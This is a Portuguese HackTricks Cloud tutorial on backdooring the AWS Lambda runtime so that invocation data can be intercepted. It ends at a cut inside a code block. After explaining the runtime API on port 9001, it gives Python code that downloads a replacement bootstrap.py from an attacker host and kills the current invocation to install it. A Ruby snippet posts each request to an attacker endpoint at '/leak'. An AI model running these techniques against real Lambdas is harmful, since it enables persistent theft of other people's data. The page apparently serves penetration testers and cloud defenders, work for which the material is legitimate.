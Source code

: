 # AWS - Roubar Requisições Lambda

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no Github.

</details>

## Introdução <a href="#python-runtime" id="python-runtime"></a>

Este ataque pressupõe que você tenha algum tipo de **acesso a uma Lambda em execução**.\
Além disso, algo importante a ser observado é que **as invocações da Lambda não estão completamente separadas umas das outras, mas são isoladas**. Elas podem ser executadas, embora não simultaneamente, no mesmo ambiente de execução. Com isso em mente, vamos começar a dissecar esse ambiente.

### Isolamento

O isolamento da Lambda usa os cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Como o prefixo 'sandbox' não corresponde a nenhum mecanismo de contêiner comum (docker, podman, LXD, rkt), pode ser um mecanismo de contêiner proprietário, que pode estar usando internamente um tempo de execução de contêiner de código aberto como o [runC](https://github.com/opencontainers/runc).

### Como as Lambdas funcionam  <a href="#python-runtime" id="python-runtime"></a>

Esta parece ser a arquitetura da Lambda em Python:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. Um processo fora do contêiner, referido como o "**slicer**" no binário init, envia eventos de invocação para o processo **init** via memória compartilhada.
2. O processo init configura um servidor HTTP na porta 9001 (codificada em duro), com vários endpoints expostos:
   1. /2018-06-01/runtime/invocation/**next** – obter o próximo evento de invocação
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – retornar a resposta do manipulador para a invocação
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – retornar um erro de execução
3.  No `bootstrap.py`, o seguinte loop **consulta o processo init para um novo evento**, e então **chama a função do usuário** para lidar com ele (aqui, o manipulador de solicitações que você enviou é executado).\


    <figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. A **resposta do manipulador é então enviada de volta para o processo init** através de um dos seguintes endpoints:
   1. `/{invoke-id}/response` – se o manipulador do usuário foi executado com sucesso
   2. `/{invoke-id}/error` – se uma exceção foi levantada durante o tratamento da invocação

## Resumo da técnica <a href="#python-runtime" id="python-runtime"></a>

É possível **substituir o script de inicialização** por código malicioso para ser capaz de **interceptar dados** enviados para a função Lambda.\
Observe que **outros mecanismos em outras linguagens** têm outro **script de inicialização** escrito nessa linguagem, então isso pode ser feito **também em outras lambdas usando outras linguagens**, não apenas em Python.

## Python <a href="#python-runtime" id="python-runtime"></a>

A partir da Lambda, baixe **`/var/runtime/bootstrap.py`** (ou apenas inicie **sua própria lambda** e obtenha-o) e adicione a porta dos fundos que vazará todos os dados enviados para a Lambda. Você só precisa adicionar algumas linhas, como:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Substituindo o tempo de execução

Agora, com o novo **`boostrap.py` criado**, é possível **baixá-lo**, **encerrar a invocação atual da lambda** e executá-lo para **substituir** o legítimo:

```python
import os
from urllib import request

# Baixar o bootstrap.py do seu servidor
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
    f.write(r.read().decode('utf-8'))

# Obter o ID da invocação e encerrá-lo
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Iniciar o seu bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```

Ou você também pode usar o [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), que encerrará a invocação como feito anteriormente, executará o novo bootstrap e exfiltrará as informações.

{% hint style="warning" %}
Se uma função lambda não for usada por 5-15 minutos, ela será desligada, e todas as alterações serão perdidas na próxima vez que for invocada.
{% endhint %}

## Tempo de execução Ruby <a href="#ruby-runtime" id="ruby-runtime"></a>

Em Ruby, o arquivo que você deseja adicionar a porta dos fundos é o arquivo **`/var/runtime/lib/runtime.rb`** (obtê-lo do sistema ou executando sua própria lambda).

Adicionar uma porta dos fundos é tão simples quanto na versão Python:

```ruby
# Adicionar um require no início
require 'json'
require 'net/http'
[...]
# No loop onde a invocação é tratada
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Então, você só precisa fazer o que fez na versão Python com apenas uma mudança:

* **Baixar a porta dos fundos em um diretório**
* **Criar um link simbólico** `/var/runtime/lib/*` com o diretório onde a porta dos fundos está
* Encerrar a invocação atual da lambda

```ruby
# Você pode obter um